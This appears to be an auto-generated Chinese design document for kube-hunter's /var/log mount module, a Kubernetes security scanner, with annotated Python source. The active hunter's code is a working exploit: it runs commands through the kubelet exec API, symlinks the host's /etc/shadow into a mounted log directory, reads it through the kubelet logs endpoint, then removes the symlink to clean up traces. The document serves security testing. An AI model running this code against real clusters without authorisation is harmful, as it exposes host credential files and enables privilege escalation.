








# `kubehunter\kube_hunter\modules\hunting\mounts.py` 详细设计文档

这是一个Kubernetes安全漏洞检测模块，通过检测Pod是否挂载了hostPath到/var/log目录，并尝试实际利用该漏洞进行目录遍历读取主机上的敏感文件（如/etc/shadow），从而验证攻击者是否可以利用该配置错误获取主机root权限。

## 整体流程



## 类结构

```
Event (基类)
├── Vulnerability
│   ├── WriteMountToVarLog
│   └── DirectoryTraversalWithKubelet
Hunter (基类)
│   └── VarLogMountHunter
ActiveHunter (基类)
│   └── ProveVarLogMount
```

## 全局变量及字段


### `logging`
    
Python标准库日志模块

类型：`module`
    


### `re`
    
Python标准库正则表达式模块

类型：`module`
    


### `uuid`
    
Python标准库UUID生成模块

类型：`module`
    


### `config`
    
kube-hunter配置对象，从conf模块导入

类型：`object`
    


### `handler`
    
kube-hunter事件处理器

类型：`EventHandler`
    


### `Event`
    
kube-hunter事件基类

类型：`class`
    


### `Vulnerability`
    
kube-hunter漏洞事件类

类型：`class`
    


### `ActiveHunter`
    
主动hunter基类

类型：`class`
    


### `Hunter`
    
被动hunter基类

类型：`class`
    


### `KubernetesCluster`
    
Kubernetes集群资产类型

类型：`class`
    


### `PrivilegeEscalation`
    
权限提升漏洞类别

类型：`class`
    


### `ExposedPodsHandler`
    
Pod暴露事件处理器

类型：`class`
    


### `ExposedRunHandler`
    
Run命令暴露事件处理器

类型：`class`
    


### `KubeletHandlers`
    
Kubelet API端点枚举

类型：`class`
    


### `logger`
    
模块级日志记录器

类型：`Logger`
    


### `WriteMountToVarLog.pods`
    
存在/var/log挂载的Pod列表

类型：`List[Dict]`
    


### `WriteMountToVarLog.evidence`
    
漏洞证据字符串

类型：`str`
    


### `DirectoryTraversalWithKubelet.output`
    
从主机读取的文件内容

类型：`str`
    


### `DirectoryTraversalWithKubelet.evidence`
    
漏洞证据字符串

类型：`str`
    


### `VarLogMountHunter.event`
    
接收的Pod暴露事件

类型：`ExposedPodsHandler`
    


### `ProveVarLogMount.event`
    
接收的Run暴露事件

类型：`ExposedRunHandler`
    


### `ProveVarLogMount.base_path`
    
Kubelet API的基础URL

类型：`str`
    
    

## 全局函数及方法


### `logging.getLogger(__name__)` - 模块日志记录器初始化

这是一行模块级别的语句，用于获取当前模块的日志记录器实例，以便在模块内使用统一的日志输出。

#### 参数

- 无显式参数（`__name__` 是 Python 的内置变量，表示当前模块的完全限定名）

#### 返回值

- `logging.Logger`，返回与当前模块名称关联的日志记录器实例

#### 流程图



#### 带注释源码

```python
# 导入 logging 模块以支持日志记录功能
import logging
# 导入 re 模块用于正则表达式处理
import re
# 导入 uuid 模块用于生成唯一标识符
import uuid

# 从 kube_hunter 配置模块导入配置对象
from kube_hunter.conf import config
# 从事件处理模块导入事件处理器
from kube_hunter.core.events import handler
# 从事件类型模块导入Event和Vulnerability基类
from kube_hunter.core.events.types import Event, Vulnerability
# 从核心类型模块导入安全类型
from kube_hunter.core.types import (
    ActiveHunter,
    Hunter,
    KubernetesCluster,
    PrivilegeEscalation,
)
# 从Kubelet模块导入多个处理器类
from kube_hunter.modules.hunting.kubelet import (
    ExposedPodsHandler,
    ExposedRunHandler,
    KubeletHandlers,
)

# 获取当前模块的日志记录器
# __name__ 是Python内置变量，在此文件中值为 "kube_hunter.modules.hunting.varlog"
# 该Logger将用于模块内所有日志输出，便于追踪和调试
logger = logging.getLogger(__name__)
```

#### 说明

该语句是模块级别的日志记录器初始化，具有以下特点：

| 属性 | 值 |
|------|-----|
| 名称 | `logging.getLogger(__name__)` |
| 类型 | 模块级语句/表达式 |
| 目标模块 | `kube_hunter.modules.hunting.varlog` |
| 用途 | 提供统一的日志记录接口，便于问题诊断和运行监控 |

该日志记录器在后续代码中通过 `logger.debug()` 被多次使用，用于输出调试信息。


### `WriteMountToVarLog.__init__`

初始化漏洞事件"Pod With Mount To /var/log"，该漏洞允许Pod通过挂载到宿主机的/var/log目录进行特权提升攻击。在初始化过程中，调用父类Vulnerability的构造函数，设置漏洞的基本属性（包括名称、类别、VID等），并将传入的Pod列表存储为实例属性，同时生成包含所有Pod名称的证据字符串。

参数：

- `pods`：`List[Dict]`，包含具有写权限挂载到/var/log的Pod列表，每个Pod是一个包含metadata和spec信息的字典

返回值：`None`，__init__方法不返回任何值

#### 流程图



#### 带注释源码

```python
def __init__(self, pods):
    # 调用父类 Vulnerability 的构造函数进行初始化
    # 参数: 
    #   - self: 当前实例
    #   - KubernetesCluster: 漏洞影响的目标类型
    #   - "Pod With Mount To /var/log": 漏洞名称
    #   - category=PrivilegeEscalation: 漏洞类别为权限提升
    #   - vid="KHV047": 漏洞的唯一标识符
    Vulnerability.__init__(
        self, KubernetesCluster, "Pod With Mount To /var/log", category=PrivilegeEscalation, vid="KHV047",
    )
    
    # 将传入的 Pod 列表存储为实例属性，供后续处理使用
    self.pods = pods
    
    # 生成漏洞证据字符串，格式为: "pods: pod1_name, pod2_name, ..."
    # 使用列表推导式从每个 Pod 的 metadata 中提取 name 字段
    # ", ".join() 将多个 Pod 名称用逗号和空格连接
    self.evidence = "pods: {}".format(", ".join((pod["metadata"]["name"] for pod in self.pods)))
```


### `DirectoryTraversalWithKubelet.__init__`

初始化目录遍历漏洞事件类，用于记录通过Kubelet实现的主机文件系统根目录遍历读取漏洞的输出内容。

参数：

- `output`：`str`，表示从主机文件系统读取的文件内容（如/etc/shadow等敏感文件）

返回值：`None`，`__init__`方法不返回值，仅初始化对象状态

#### 流程图

```mermaid
flowchart TD
    A[开始 __init__] --> B[调用 Vulnerability.__init__ 初始化基类]
    B --> C[设置漏洞名称为 Root Traversal Read On The Kubelet]
    C --> D[设置 category 为 PrivilegeEscalation]
    D --> E[self.output = output]
    E --> F[self.evidence = 'output: {output}']
    F --> G[结束]
```

#### 带注释源码

```python
def __init__(self, output):
    """
    初始化 DirectoryTraversalWithKubelet 漏洞事件
    
    参数:
        output: str - 从主机文件系统通过路径遍历读取的内容
    """
    # 调用父类 Vulnerability 的初始化方法
    # 设置漏洞所属类别为 KubernetesCluster
    # 设置漏洞名称为 "Root Traversal Read On The Kubelet"
    # 设置漏洞类别为 PrivilegeEscalation（权限提升）
    Vulnerability.__init__(
        self, KubernetesCluster, "Root Traversal Read On The Kubelet", category=PrivilegeEscalation,
    )
    
    # 存储从主机文件系统读取的原始输出内容
    # 这是通过利用 /var/log 主机挂载实现目录遍历读取的敏感文件内容
    self.output = output
    
    # 生成漏洞证据字符串，用于日志和报告输出
    # 格式: "output: {读取的文件内容}"
    self.evidence = "output: {}".format(self.output)
```


### `VarLogMountHunter.__init__`

该方法是 VarLogMountHunter 类的初始化方法，用于接收并存储 ExposedPodsHandler 事件对象，以便后续在该事件中检测具有写权限挂载到宿主机 /var/log 目录的 Pod。

参数：

- `event`：`Event`（具体为 `ExposedPodsHandler` 类型），由事件处理器传递的 ExposedPodsHandler 事件对象，包含集群中暴露的 Pods 信息

返回值：`None`，该方法仅为初始化方法，不返回任何值

#### 流程图



#### 带注释源码

```python
def __init__(self, event):
    """
    初始化 VarLogMountHunter
    
    参数:
        event: Event 类型的事件对象，具体为 ExposedPodsHandler 事件
               该事件包含集群中暴露的 Pods 列表信息
    返回值:
        无返回值，仅初始化实例变量
    """
    self.event = event  # 将传入的事件对象存储为实例变量，供 execute 方法使用
```


### `VarLogMountHunter.has_write_mount_to`

检查Pod的卷配置中是否存在指定路径的写挂载（hostPath类型为Directory且路径匹配）。

参数：
- `pod_data`：`Dict`，Pod的完整数据对象，包含spec.volumes卷列表信息
- `path`：`str`，要检查的宿主路径前缀（如"/var/log"）

返回值：`Dict`，返回匹配条件的第一卷对象，如果未找到则返回`None`

#### 流程图

```mermaid
flowchart TD
    A[开始: has_write_mount_to] --> B[遍历 pod_data['spec']['volumes']]
    B --> C{当前卷是否有 hostPath}
    C -->|否| D[继续下一卷]
    C -->|是| E{hostPath.type 包含 'Directory'}
    E -->|否| D
    E -->|是| F{hostPath.path 以 path 开头}
    F -->|否| D
    F -->|是| G[返回当前卷 volume]
    D --> H{还有更多卷}
    H -->|是| B
    H -->|否| I[返回 None]
    G --> J[结束]
    I --> J
```

#### 带注释源码

```python
def has_write_mount_to(self, pod_data, path):
    """Returns volume for correlated writable mount"""
    # 遍历Pod规范中的所有卷定义
    for volume in pod_data["spec"]["volumes"]:
        # 检查当前卷是否配置了hostPath挂载（将宿主目录映射到容器内）
        if "hostPath" in volume:
            # 验证hostPath类型为Directory（目录类型才能写入）
            # 注意：type字段可能不存在或为其他类型（如File、Socket等）
            if "Directory" in volume["hostPath"]["type"]:
                # 检查宿主机路径是否以目标路径开头（实现前缀匹配）
                # 例如：path="/var/log" 可匹配 "/var/log/some/subdir"
                if volume["hostPath"]["path"].startswith(path):
                    # 找到匹配的卷，立即返回（返回第一个匹配项）
                    return volume
    # 遍历完毕未找到匹配卷，隐式返回None
```


### `VarLogMountHunter.execute()`

该方法为核心检测逻辑，遍历从`ExposedPodsHandler`事件中获取的Pod列表，筛选出具有`hostPath`挂载且路径为`/var/log`（可写）的Pod，若存在符合条件的Pod则发布`WriteMountToVarLog`漏洞事件。

参数：该方法无显式参数（`self`为实例方法隐含参数）

返回值：`None`，无返回值

#### 流程图



#### 带注释源码

```python
def execute(self):
    """
    执行检测逻辑，筛选出所有具有 /var/log 目录写挂载的 Pod，
    并发布 WriteMountToVarLog 事件
    """
    # 初始化空列表，用于存储具有 /var/log 写挂载的 Pod
    pe_pods = []
    
    # 遍历事件中携带的所有 Pod 数据
    for pod in self.event.pods:
        # 调用 has_write_mount_to 方法检查当前 Pod 是否具有
        # 类型为 Directory 且路径以 /var/log 开头的 hostPath 挂载
        if self.has_write_mount_to(pod, path="/var/log"):
            # 符合条件，将该 Pod 添加到结果列表
            pe_pods.append(pod)
    
    # 若存在符合条件的 Pod，则发布漏洞事件
    if pe_pods:
        # 发布 WriteMountToVarLog 事件，携带符合条件的 Pod 列表
        # 事件继承自 Vulnerability 和 Event，会被事件处理器分发
        self.publish_event(WriteMountToVarLog(pods=pe_pods))
```


### `ProveVarLogMount.__init__(event)`

初始化 ProveVarLogMount 主动猎人，接收 ExposedRunHandler 事件用于后续的 /var/log 挂载漏洞验证。

参数：

- `event`：`Event`，来自 ExposedRunHandler 的事件对象，包含目标 kubelet 的 host 和 port 信息

返回值：`None`，无返回值（`__init__` 方法）

#### 流程图

```mermaid
flowchart TD
    A[开始 __init__] --> B[接收 event 参数]
    B --> C{event 有效性检查}
    C -->|有效| D[将 event 赋值给 self.event]
    D --> E[构建 self.base_path = https://{host}:{port}]
    F[结束 __init__]
    C -->|无效| F
```

#### 带注释源码

```python
def __init__(self, event):
    """初始化 ProveVarLogMount 猎人
    
    Args:
        event: 包含目标 kubelet 连接信息的事件对象，
               必须具有 host 和 port 属性
    """
    # 将传入的事件对象保存为实例属性，供后续方法使用
    self.event = event
    
    # 构建基础 URL，用于后续 API 调用
    # 格式: https://{host}:{port}
    # host 和 port 来自 event 对象的属性
    self.base_path = f"https://{self.event.host}:{self.event.port}"
```


### ProveVarLogMount.run

在容器中执行命令并返回命令输出结果，通过 Kubelet 的 RUN API 端点向指定 Pod 和容器发送 POST 请求执行 shell 命令。

参数：

- `command`：`str`，要执行的命令字符串
- `container`：`Dict`，包含容器信息的字典，必须包含 "namespace"、"pod" 和 "name" 键

返回值：`str`，HTTP 响应文本，即命令在容器中的执行输出

#### 流程图



#### 带注释源码

```python
def run(self, command, container):
    """在容器中执行命令并返回输出
    
    Args:
        command: 要在容器内执行的命令字符串
        container: 包含容器信息的字典，必须包含以下键:
            - namespace: Pod 所在的命名空间
            - pod: Pod 的名称
            - name: 容器的名称
    
    Returns:
        str: 命令在容器中的执行输出（HTTP 响应文本）
    """
    # 从 KubeletHandlers 枚举获取 RUN 端点的 URL 模板
    # 格式: /pods/{podNamespace}/{podID}/containers/{containerName}/exec
    run_url = KubeletHandlers.RUN.value.format(
        podNamespace=container["namespace"],  # 从 container 字典提取命名空间
        podID=container["pod"],                # 从 container 字典提取 Pod ID
        containerName=container["name"],       # 从 container 字典提取容器名称
        cmd=command,                           # 要执行的命令
    )
    # 发送 POST 请求到 Kubelet 的 exec 端点执行命令
    # verify=False 跳过 SSL 证书验证（因为是内部通信）
    return self.event.session.post(f"{self.base_path}/{run_url}", verify=False).text
```


### `ProveVarLogMount.get_varlog_mounters`

该方法是一个生成器函数，用于手动访问 Kubelet 的 /pods 端点，获取所有 Pod 信息，并检查每个 Pod 是否具有对主机 /var/log 目录的写入挂载。如果 Pod 有相关的卷挂载，则 yield 该 Pod 及其对应的卷信息。

参数：

- `self`：`ProveVarLogMount` 类实例，隐式参数，包含事件会话和基础路径等信息

返回值：`Generator[Tuple[Dict, Dict], None, None]`，返回一个生成器，每迭代一次 yield 一个元组 `(pod, volume)`，其中 `pod` 是包含 /var/log 挂载的 Pod 字典，`volume` 是对应的卷信息字典

#### 流程图

```mermaid
flowchart TD
    A[开始 get_varlog_mounters] --> B[记录调试日志: accessing /pods manually]
    B --> C[向 Kubelet API 发送 GET 请求获取 /pods 端点数据]
    C --> D[解析响应 JSON 获取 items 列表]
    D --> E{迭代每个 pod}
    E -->|对于每个 pod| F[创建 VarLogMountHunter 实例检查是否有 /var/log 写入挂载]
    F --> G{volume 是否存在}
    G -->|是| H[yield (pod, volume) 元组]
    G -->|否| I[继续下一个 pod]
    H --> E
    I --> E
    E --> J{所有 pod 迭代完成?}
    J -->|是| K[结束生成器]
```

#### 带注释源码

```python
def get_varlog_mounters(self):
    """
    获取所有有 /var/log 挂载的 Pod 和对应的卷信息
    这是一个生成器函数,遍历所有 Pod 并筛选出具有 /var/log 主机路径挂载的 Pod
    """
    # 记录调试信息,表明正在手动访问 /pods 端点
    logger.debug("accessing /pods manually on ProveVarLogMount")
    
    # 向 Kubelet API 发送 GET 请求获取所有 Pod 信息
    # base_path 格式: https://{host}:{port}
    # 使用 KubeletHandlers.PODS.value 构建请求路径
    # verify=False 跳过 SSL 证书验证
    # timeout 使用配置的网络超时时间
    pods = self.event.session.get(
        f"{self.base_path}/" + KubeletHandlers.PODS.value, verify=False, timeout=config.network_timeout,
    ).json()["items"]  # 从响应 JSON 中提取 items 数组
    
    # 遍历所有 Pod
    for pod in pods:
        # 创建 VarLogMountHunter 实例并调用 has_write_mount_to 方法
        # 检查当前 pod 是否具有对 /var/log 目录的写入挂载
        # 注意: 这里传入的 pods 参数是所有 Pod 的列表,而不是当前迭代的单个 pod
        volume = VarLogMountHunter(ExposedPodsHandler(pods=pods)).has_write_mount_to(pod, "/var/log")
        
        # 如果找到匹配的卷挂载,则 yield (pod, volume) 元组
        if volume:
            yield pod, volume
```


### ProveVarLogMount.mount_path_from_mountname

该方法用于根据给定的挂载名称（mount_name）在 Pod 的容器规范中查找对应的容器和挂载路径。它遍历 Pod 的所有容器及其卷挂载信息，当找到匹配的挂载名称时，返回该容器对象及其挂载路径。

参数：
- `pod`：`Dict`，包含 Pod 规范的字典对象，其中 `pod["spec"]["containers"]` 包含容器列表，每个容器包含 `volumeMounts` 信息
- `mount_name`：`str`，要查找的卷挂载名称

返回值：`Generator`，生成器对象，每次 yield 返回一个元组 `(container, mount_path)`，其中 container 是容器字典对象，mount_path 是该容器中对应挂载的路径字符串

#### 流程图

```mermaid
flowchart TD
    A[开始] --> B[遍历 pod['spec']['containers'] 中的每个容器]
    B --> C{还有容器吗?}
    C -->|是| D[遍历当前容器的 volumeMounts]
    D --> E{volumeMount['name'] == mount_name?}
    E -->|是| F[yield 返回 container 和 volume_mount['mountPath']]
    E -->|否| G[继续下一个 volumeMount]
    G --> H{还有 volumeMount 吗?}
    H -->|是| E
    H -->|否| I[继续下一个容器]
    C -->|否| J[结束]
    I --> C
```

#### 带注释源码

```python
def mount_path_from_mountname(self, pod, mount_name):
    """returns container name, and container mount path correlated to mount_name"""
    # 遍历 Pod 规范中的所有容器
    for container in pod["spec"]["containers"]:
        # 遍历当前容器的所有卷挂载
        for volume_mount in container["volumeMounts"]:
            # 检查卷挂载的名称是否与给定的 mount_name 匹配
            if volume_mount["name"] == mount_name:
                # 记录调试信息
                logger.debug(f"yielding {container}")
                # 返回匹配的容器对象及其挂载路径
                yield container, volume_mount["mountPath"]
```


### `ProveVarLogMount.traverse_read`

该方法实现通过符号链接技术读取主机文件系统中的文件，利用容器挂载到主机/var/log目录的特性，创建符号链接后通过Kubelet的日志端点访问目标文件，最后清理符号链接痕迹。

参数：

- `host_file`：`str`，要读取的主机文件路径（如/etc/shadow）
- `container`：`Dict`，包含容器信息的字典，需要包含name、pod、namespace字段
- `mount_path`：`str`，容器内的挂载路径（/var/log在容器内的挂载点）
- `host_path`：`str`，主机上的挂载路径（/var/log在主机上的实际路径）

返回值：`str`，返回读取到的文件内容

#### 流程图



#### 带注释源码

```python
def traverse_read(self, host_file, container, mount_path, host_path):
    """Returns content of file on the host, and cleans trails"""
    # 生成随机的UUID作为符号链接名称，避免与现有文件冲突
    symlink_name = str(uuid.uuid4())
    
    # 在容器内创建符号链接，将挂载路径下的符号链接指向主机文件
    # 例如: ln -s /etc/shadow /var/log/<uuid>
    self.run(f"ln -s {host_file} {mount_path}/{symlink_name}", container)
    
    # 从主机路径中移除/var/log前缀，构造相对路径用于日志端点
    # 结合符号链接名称形成访问路径
    path_in_logs_endpoint = KubeletHandlers.LOGS.value.format(
        path=re.sub(r"^/var/log", "", host_path) + symlink_name
    )
    
    # 通过Kubelet的日志端点访问符号链接，触发符号链接跟随
    # 获取文件内容（.text属性获取响应文本）
    content = self.event.session.get(
        f"{self.base_path}/{path_in_logs_endpoint}", verify=False, timeout=config.network_timeout,
    ).text
    
    # 删除之前创建的符号链接，清理痕迹避免被发现
    self.run(f"rm {mount_path}/{symlink_name}", container=container)
    
    # 返回读取到的文件内容
    return content
```


### `ProveVarLogMount.execute()`

执行漏洞利用验证，尝试通过具有 /var/log 主机挂载的 Pod 进行目录遍历，读取主机上的敏感文件（如 /etc/shadow），成功利用后发布 `DirectoryTraversalWithKubelet` 事件。

参数：

- 此方法无显式参数（`self` 为实例本身）

返回值：`None`，无返回值

#### 流程图



#### 带注释源码

```python
def execute(self):
    # 遍历所有具有 /var/log 主机挂载的 Pod 和 Volume
    for pod, volume in self.get_varlog_mounters():
        # 针对每个 Volume，遍历关联的容器及其挂载路径
        for container, mount_path in self.mount_path_from_mountname(pod, volume["name"]):
            logger.debug("Correlated container to mount_name")
            
            # 构建容器信息字典，包含容器名、Pod名和命名空间
            cont = {
                "name": container["name"],
                "pod": pod["metadata"]["name"],
                "namespace": pod["metadata"]["namespace"],
            }
            
            try:
                # 尝试通过符号链接遍历读取主机上的 /etc/shadow 文件
                output = self.traverse_read(
                    "/etc/shadow",           # 目标主机文件路径
                    container=cont,         # 容器信息
                    mount_path=mount_path,  # 容器内的挂载路径
                    host_path=volume["hostPath"]["path"],  # 主机上的挂载路径
                )
                
                # 成功读取后，发布 DirectoryTraversalWithKubelet 漏洞事件
                self.publish_event(DirectoryTraversalWithKubelet(output=output))
            except Exception:
                # 漏洞利用失败时，记录调试日志（不中断执行，继续尝试其他容器）
                logger.debug("Could not exploit /var/log", exc_info=True)
```

## 关键组件


### WriteMountToVarLog (漏洞事件类)

用于记录Pod具有写入挂载到主机/var/log目录的能力，该漏洞可导致符号链接攻击，实现主机根目录遍历。

### DirectoryTraversalWithKubelet (漏洞事件类)

用于记录通过Kubelet实现的目录遍历漏洞，攻击者可通过挂载/var/log的Pod读取主机上的任意文件。

### VarLogMountHunter (Hunter类)

被动扫描器，订阅ExposedPodsHandler事件，检测集群中是否存在挂载了主机/var/log目录的可写Pod。

### ProveVarLogMount (ActiveHunter类)

主动验证器，订阅ExposedRunHandler事件，通过实际执行命令来证明/var/log挂载漏洞的可行性，包括创建符号链接并通过Kubelet日志端点读取主机文件。

### has_write_mount_to (方法)

检查指定Pod是否具有对特定路径（如/var/log）的写入挂载，通过遍历Pod的volumes数组并检查hostPath类型。

### get_varlog_mounters (方法)

惰性加载器，通过手动访问/pods端点获取所有Pod信息，筛选出具有/var/log挂载的Pod并以生成器方式返回。

### traverse_read (方法)

核心攻击实现方法，通过创建符号链接到目标主机文件，然后通过Kubelet的日志端点-follow符号链接读取文件内容，最后清理痕迹。

### mount_path_from_mountname (方法)

关联容器与挂载名称的工具方法，根据给定的挂载名称查找对应的容器名称和挂载路径。

### run (方法)

通过Kubelet的RUN API在指定容器内执行命令的HTTP客户端方法。


## 问题及建议


### 已知问题

- **异常处理过于宽泛**：`execute`方法中使用`except Exception`捕获所有异常，仅记录调试日志后 silently fail，可能掩盖真实的错误和问题，导致难以排查故障
- **硬编码敏感路径**：`execute`方法中硬编码了`"/etc/shadow"`路径，缺乏灵活性和可配置性
- **代码重复**：`get_varlog_mounters`方法手动调用API获取pods数据，而已有`ExposedPodsHandler`事件包含相同数据，未能复用已有事件流
- **TODO未完成**：代码中存在TODO注释表明需要重构为订阅`WriteMountToVarLog`事件，但至今未实现
- **资源清理风险**：`traverse_read`方法中symlink的清理操作在异常情况下可能失败，导致遗留文件
- **重复实例化**：`get_varlog_mounters`中每次循环都`new VarLogMountHunter(ExposedPodsHandler(pods=pods))`创建新实例，造成不必要的开销
- **缺乏超时配置**：`run`方法执行命令时未设置timeout，可能导致请求长时间挂起

### 优化建议

- 将`except Exception`改为具体异常类型处理，对不同异常采取不同策略，或在必要时重新抛出
- 将敏感路径提取为配置参数或通过事件传递
- 重构为订阅`WriteMountToVarLog`事件，复用已有的漏洞检测结果，避免重复API调用
- 使用try-finally确保symlink清理操作一定执行，或考虑使用临时文件
- 将`VarLogMountHunter`实例化为类属性或传入参数，避免重复创建
- 为`run`方法添加合理的timeout参数
- 添加结果缓存机制，避免重复获取pods数据

## 其它


### 设计目标与约束

